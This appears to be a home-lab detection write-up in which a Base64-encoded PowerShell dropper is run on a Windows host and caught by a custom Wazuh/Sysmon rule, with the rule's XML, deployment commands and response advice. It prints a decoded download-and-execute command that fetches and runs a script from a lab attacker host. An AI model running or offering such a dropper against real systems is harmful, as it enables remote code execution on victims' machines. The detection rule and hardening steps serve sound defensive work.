



# T1059.001 - Suspicious Encoded PowerShell

**Host:** DESKTOP-18T77L4, user `paritvr`
**Date/time:** first attempt approximately 3:08 PM local (failed to reach listener); re-run approximately 4:36 PM local after the custom rule was deployed

## Summary
An obfuscated download-and-execute PowerShell command was run using the `-enc` (Base64-encoded command) flag. Wazuh's built-in Sysmon ruleset does not flag encoded PowerShell on its own, so a purpose-built custom rule (100002) was written, deployed, and confirmed to fire correctly, tagged with the correct MITRE ATT&CK technique so it also surfaces in Wazuh's ATT&CK dashboard.

## Alert Summary

- **What fired:** custom rule `100002`, level 12 (High)
- **Description:** "Suspicious encoded PowerShell command executed"
- **MITRE tagging:** `rule.mitre.id: T1059.001`, `rule.mitre.tactic: Execution`, `rule.mitre.technique: PowerShell`, which feeds Wazuh's ATT&CK dashboard directly
- **Fire count:** `rule.firedtimes: 1`, confirming this is a precise, non-noisy rule rather than one that over-triggers
- **Decoder:** `windows_eventchannel`, via Sysmon Event ID 1 (process creation)

## Evidence



- **Command line:** `powershell.exe -enc <Base64>`, decoding to `IEX (New-Object Net.WebClient).DownloadString('http://192.168.56.20/malicious.ps1')`
- **Process lineage:** `parentImage: powershell.exe`, meaning an existing PowerShell session spawned a new PowerShell process specifically to run the encoded command. PowerShell spawning PowerShell is a secondary suspicious indicator in its own right, separate from the `-enc` flag itself, and it is visible directly in the process lineage.
- **User:** `DESKTOP-18T77L4\paritvr`
- **Attempted target:** `http://192.168.56.20/malicious.ps1` (Kali VM). The connection failed with "Unable to connect to the remote server" only because nothing was listening on port 80; the command itself executed successfully, and a live payload host would have succeeded.

## Detection Rule





```xml
<group name="local,syslog,sysmon,">
  <rule id="100002" level="12">
    <if_group>sysmon_event1</if_group>
    <field name="win.eventdata.commandLine" type="pcre2">(?i)-enc(odedcommand)?\s</field>
    <description>Suspicious encoded PowerShell command executed</description>
    <mitre>
      <id>T1059.001</id>
    </mitre>
  </rule>
</group>
```

### Deployment

```bash
docker exec -it single-node-wazuh.manager-1 bash

cat >> /var/ossec/etc/rules/local_rules.xml << 'EOF'
<group name="local,syslog,sysmon,">
  <rule id="100002" level="12">
    <if_group>sysmon_event1</if_group>
    <field name="win.eventdata.commandLine" type="pcre2">(?i)-enc(odedcommand)?\s</field>
    <description>Suspicious encoded PowerShell command executed</description>
    <mitre>
      <id>T1059.001</id>
    </mitre>
  </rule>
</group>
EOF

/var/ossec/bin/wazuh-control restart
```

After deploying the rule, the technique was re-run to confirm detection, which is the second timestamp noted above.

## MITRE ATT&CK Mapping

- **Tactic:** Execution
- **Technique:** T1059 (Command and Scripting Interpreter), sub-technique T1059.001 (PowerShell)

## Impact

Base64-encoded PowerShell is a standard technique for evading simple string-matching defenses and obscuring a download-and-execute (dropper) pattern. Had a listener been running at the target URL, this would have downloaded and executed arbitrary attacker-controlled code with the privileges of the logged-in user, a common pivot from initial access to full code execution.

## Response

- **Detect:** rule 100002 already covers both `-enc` and `-encodedcommand`; a stronger version could decode the Base64 payload automatically (a Wazuh active response or a CDB list) for full visibility into what the encoded command actually does.
- **Contain:** kill the process tree, and isolate the host from the network if a live callback to external infrastructure is suspected.
- **Harden:** enable PowerShell Script Block Logging and Constrained Language Mode, restrict outbound web access from workstations, and consider AppLocker or WDAC to control which scripts `powershell.exe` may run.
- **Investigate:** check for other `parentImage: powershell.exe` to `powershell.exe` chains across the environment as a general hunting pattern.
